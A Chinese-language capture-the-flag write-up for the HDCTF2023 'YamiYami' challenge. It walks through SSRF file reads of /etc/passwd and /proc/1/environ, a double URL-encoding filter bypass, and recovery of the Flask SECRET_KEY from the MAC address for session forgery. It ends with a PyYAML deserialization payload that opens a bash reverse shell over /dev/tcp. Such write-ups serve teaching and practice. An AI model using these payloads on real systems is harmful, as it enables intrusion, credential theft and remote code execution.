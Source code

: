 #### YamiYami

进入题目：

![image-20230423143948531](https://s2.loli.net/2023/04/23/nJmBkxYw3PaOfrF.png)

当我们点击 `Read somethings`时：

```
http://node2.anna.nssctf.cn:28523/read?url=https://baidu.com
```

我们发现可以读取到百度首页的内容，这是**SSRF**（突然忘记了）

python中我们可以使用 `file伪协议`读取文件内容

我们尝试一下读取 `/etc/passwd`

![image-20230423144508490](https://s2.loli.net/2023/04/23/gQ8YnFWyh2HAJak.png)



成功读取



非预期解：（直接读取环境变量）

```
file:///proc/1/environ   # 这里读的是pid为1的进程
```

![image-20230423144607816](https://s2.loli.net/2023/04/23/agHbZnvudWrm6to.png)



如果读取当前进程的环境变量是读取不到的：

![image-20230423145412951](https://s2.loli.net/2023/04/23/GRhokPMEr7q1J43.png)





[Linux-Proc目录的利用](https://xz.aliyun.com/t/10579)



预期解：

我们进去发现了三个路由，但是第一个read路由可以读取指定url的内容，易知这是`SSRF`

<img src="https://s2.loli.net/2023/04/28/qzVHPOj3irdvxa6.png" alt="image-20230428111516922" style="zoom:33%;" />

我们点击 pwd，显示 `/app`，说明此时文件在`/app`目录下面

由于这是python写的题，我们很容易猜到文件名是 `app.py`

于是我们想要使用file协议去读取 `/app/app.py`文件

![image-20230428111931565](https://s2.loli.net/2023/04/28/PtMrf3R9VyAcXQj.png)

结果`app`被过滤了

这里我们可以将 `app`字段**两次url编码绕过**

![image-20230428112210448](https://s2.loli.net/2023/04/28/WiY31ZKDaSOPXTe.png)

获得源码：

```python

#encoding:utf-8
import os
import re, random, uuid
from flask import *
from werkzeug.utils import *
import yaml
from urllib.request import urlopen
app = Flask(__name__)
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random()*233)
app.debug = False
BLACK_LIST=["yaml","YAML","YML","yml","yamiyami"]
app.config['UPLOAD_FOLDER']="/app/uploads"

@app.route('/')
def index():
    session['passport'] = 'YamiYami'
    return '''
    Welcome to HDCTF2023 <a href="/read?url=https://baidu.com">Read somethings</a>
    <br>
    Here is the challenge <a href="/upload">Upload file</a>
    <br>
    Enjoy it <a href="/pwd">pwd</a>
    '''
@app.route('/pwd')
def pwd():
    return str(pwdpath)
@app.route('/read')
def read():
    try:
        url = request.args.get('url')
        m = re.findall('app.*', url, re.IGNORECASE)
        n = re.findall('flag', url, re.IGNORECASE)
        if m:
            return "re.findall('app.*', url, re.IGNORECASE)"
        if n:
            return "re.findall('flag', url, re.IGNORECASE)"
        res = urlopen(url)
        return res.read()
    except Exception as ex:
        print(str(ex))
    return 'no response'

def allowed_file(filename):
   for blackstr in BLACK_LIST:
       if blackstr in filename:
           return False
   return True
@app.route('/upload', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        if 'file' not in request.files:
            flash('No file part')
            return redirect(request.url)
        file = request.files['file']
        if file.filename == '':
            return "Empty file"
        if file and allowed_file(file.filename):
            filename = secure_filename(file.filename)
            if not os.path.exists('./uploads/'):
                os.makedirs('./uploads/')
            file.save(os.path.join(app.config['UPLOAD_FOLDER'], filename))
            return "upload successfully!"
    return render_template("index.html")
@app.route('/boogipop')
def load():
    if session.get("passport")=="Welcome To HDCTF2023":
        LoadedFile=request.args.get("file")
        if not os.path.exists(LoadedFile):
            return "file not exists"
        with open(LoadedFile) as f:
            yaml.full_load(f)
            f.close()
        return "van you see"
    else:
        return "No Auth bro"
if __name__=='__main__':
    pwdpath = os.popen("pwd").read()
    app.run(
        debug=False,
        host="0.0.0.0"
    )
    print(app.config['SECRET_KEY'])

```

我们阅读一下read路由的源码：

```python
url = request.args.get('url')
m = re.findall('app.*', url, re.IGNORECASE)
n = re.findall('flag', url, re.IGNORECASE)
if m:
return "re.findall('app.*', url, re.IGNORECASE)"
if n:
return "re.findall('flag', url, re.IGNORECASE)"
res = urlopen(url)
return res.read()
```

我们发现获得的url会使用 `urlopen()`去读取指定url的内容，因此，我们可以url编码两次，第一次浏览器自动解码，然后获得被编码一次的url，这时可以绕过 `re.findall()`正则，`urlopen()`函数可以解析包含urlencode的网址，这样我们知道为什么可以两次编码绕过了



```python
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random()*233)
```

这一段代码，`random.seed()`函数将会指定一个随机数种子，如果是固定值的话，会产生伪随机，每次固定位置的随机数都是一样的

> `uuid.getnode()`函数用于获取网络接口的MAC地址。如果机器具有多个网络接口，则返回通用管理的MAC地址，而不是通过本地管理的MAC地址返回。管理的MAC地址保证是全局唯一的

`uuid.getnode()`可以用来获取网口的mac地址，因此是一个固定值，会生成伪随机，我们需要获取到mac地址

<img src="https://s2.loli.net/2023/04/28/g9OC581ytisKUVb.png" alt="image-20230428113423797" style="zoom:33%;" />

我们可以使用：

```
/sys/class/net/eth0/address
```

获取 eth0 网卡的mac地址

<img src="https://s2.loli.net/2023/04/28/KgwbrZAGf2TLnNk.png" alt="image-20230428113543582" style="zoom:33%;" />

这是16进制的值，于是我们可以使用脚本生成 `SECRET_KEY`的值了：

```python
import random
import uuid

random.seed(0x0242ac025164)
print(random.random()*233)

# 16.703189614984886
```

得到key，我们可以使用 session伪造脚本伪造session了

![image-20230428113758500](https://s2.loli.net/2023/04/28/DZgrlOKW5UNcuYe.png)

```python
@app.route('/boogipop')
def load():
    if session.get("passport")=="Welcome To HDCTF2023":
        LoadedFile=request.args.get("file")
        if not os.path.exists(LoadedFile):
            return "file not exists"
        with open(LoadedFile) as f:
            yaml.full_load(f)
            f.close()
```

这里主要利用 `boogipop`路由，**yaml反序列化**

这个暂时不太会，直接放payload：

```python
!!python/object/new:str
    args: []
    state: !!python/tuple
      - "__import__('os').system('bash -c \"bash -i >& /dev/tcp/ip/port <&1\"')"
      - !!python/object/new:staticmethod
        args: []
        state:
          update: !!python/name:eval
          items: !!python/name:list
```

我们将IP、port改为自己的，然后在服务器开启监听，上传这个文件，然后利用boogipop路由即可：

![image-20230428114313417](https://s2.loli.net/2023/04/28/nQA2lsXBJGfk61V.png)

注意改一下session

![image-20230428114353862](https://s2.loli.net/2023/04/28/hyZczEaUOAr6G3V.png)

在	`/proc/1/environ` 发现flag